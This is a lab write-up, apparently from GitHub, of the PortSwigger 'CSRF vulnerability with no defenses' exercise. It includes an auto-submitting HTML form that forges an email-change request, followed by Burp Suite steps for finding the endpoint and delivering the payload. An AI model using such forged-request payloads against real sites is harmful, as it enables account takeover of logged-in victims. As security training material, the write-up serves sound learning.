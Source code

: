 # CSRF vulnerability with no defenses

## Scenario
- Victim is currently logged into the vulnerable site
- Attacker sends malicious link to user \
NOTE: This is simulated via the exploit server in portswigger
- User clicks on the link
- The POST request is sent on behalf of the attacker
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

##Attackology
1. Logged in as the user given in the lab
2. Pulled BurpSuite to intercept the traffic during the email change process
3. Deliberately changed the email of the account to determine the endpoint and method of the vulnerable email change functionality
![image](https://user-images.githubusercontent.com/64616459/148880204-3d9197f1-0a90-4f8e-a1bd-bc684e7be5c7.png)
4. In BurpSuite, looked at the HTTP history to look fo the email change endpoint and sent it to repeater
![image](https://user-images.githubusercontent.com/64616459/148880252-68b3abc9-d257-4229-91de-1719cbabf9c1.png)
5. Went to the exploit server given in the lab and added the endpoint to the form 
6. ```document.forms[0].submit``` automatically sends the POST request to the vulnerable site
![image](https://user-images.githubusercontent.com/64616459/148880927-432779d3-1121-4d39-be79-e44035108a1c.png)
7. Send the payload to the victim
![image](https://user-images.githubusercontent.com/64616459/148880701-4820a8b8-ae53-4101-bf44-09c7895fab19.png)
8. Make the email was changed after sending the payload
![image](https://user-images.githubusercontent.com/64616459/148881951-8cf931c3-f831-46be-af02-3d1baa891fc0.png)


## Reference 
Lab: CSRF vulnerability with no defenses
https://portswigger.net/web-security/csrf/lab-no-defenses

Cross-site request forgery (CSRF)
https://portswigger.net/web-security/csrf

CSRF - Lab #1 CSRF vulnerability with no defenses | Long Version \
https://www.youtube.com/watch?v=BBosVSNiJdM

